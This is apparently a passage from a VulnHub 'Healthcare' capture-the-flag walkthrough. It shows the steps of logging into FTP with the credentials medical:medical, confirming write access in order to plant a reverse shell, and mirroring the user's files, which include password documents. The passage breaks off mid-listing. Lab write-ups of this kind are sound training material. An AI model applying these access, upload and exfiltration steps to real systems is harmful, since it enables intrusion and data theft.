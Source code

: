 # Initial Foothold 2

## TCP/21 (FTP) - Upload Reverse Shell
- Instead of inserting reverse shell @ OpenEMR, we upload a reverse shell through FTP

1. Able to access FTP w/ medical:medical
	```
	┌──(root💀kali)-[~/vulnHub/Healthcare/192.168.110.8/loot/ftp]
	└─# ftp -nv $ip
	Connected to 192.168.110.8.
	220 ProFTPD 1.3.3d Server (ProFTPD Default Installation) [192.168.110.8]
	ftp> user medical
	331 Password required for medical
	Password: 
	230 User medical logged in
	Remote system type is UNIX.
	Using binary mode to transfer files.
	ftp> put test 
	local: test remote: test
	200 PORT command successful
	150 Opening BINARY mode data connection for test
	226 Transfer complete
	ftp> 
	```
	- We have write access
2. Download all files from medical
	```
	┌──(root💀kali)-[~/vulnHub/Healthcare/192.168.110.8/loot/ftp]
	└─# wget -m --no-passive ftp://medical:medical@$ip #Download all
	```
3. View directory structure
	```
	┌──(root💀kali)-[~/vulnHub/Healthcare/192.168.110.8/loot/ftp]
	└─# tree 192.168.110.8/
	192.168.110.8/
	├── Desktop
	│   ├── addlocale.desktop
	│   ├── drakfirewall.desktop
	│   ├── draknetcenter.desktop
	│   └── Get Libre Office.desktop
	├── Documents
	│   ├── OpenEMR Passwords.pdf
	│   └── Passwords.txt
	├── Downloads
	│   └── openemr-4.1.0.tar.gz
	├── Movies
	├── Music
	├── Pictures
	│   └── pclosmedical.png
	├── Templates
	├── tmp
	│   ├── debug.log
	│   ├── keyring-fPbG5t
	│   ├── keyring-hSBjUb
	│   ├── orbit-medical
	│   │   ├── bonobo-activation-register-b415b005c8435facdf68405e0000002c.lock
	│   │   ├── bonobo-activation-register-d37436b21aa5f1f34a448a3a00000028.lock
	│   │   ├── bonobo-activation-server-b415b005c8435facdf68405e0000002c-ior
	│   │   └── bonobo-activation-server-d37436b21aa5f1f34a448a3a00000028-ior
	│   ├── orbit-root
	│   ├── pulse-8LagrogWihJO
	│   │   └── pid